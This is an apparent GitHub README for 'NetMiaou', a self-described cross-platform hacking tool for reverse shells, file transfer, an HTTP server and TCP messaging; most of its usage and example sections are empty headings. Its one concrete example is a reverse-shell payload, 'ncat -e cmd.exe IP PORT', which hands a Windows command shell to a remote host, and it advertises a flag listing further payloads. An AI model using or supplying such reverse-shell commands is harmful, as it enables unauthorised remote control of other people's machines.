


# **NetMiaou**

***NetMiaou is an crossplatform hacking tool that can do reverse shells, send files, create an http server or send and receive tcp packet*** 

## **USAGE**

## **EXAMPLE**

### simple reverse shell using payload ncat -e cmd.exe IP PORT
**you can use the --show-payloads flag to see all available payloads**

### sending files using NetMiaou

### simple http server

### sending text in tcp packets
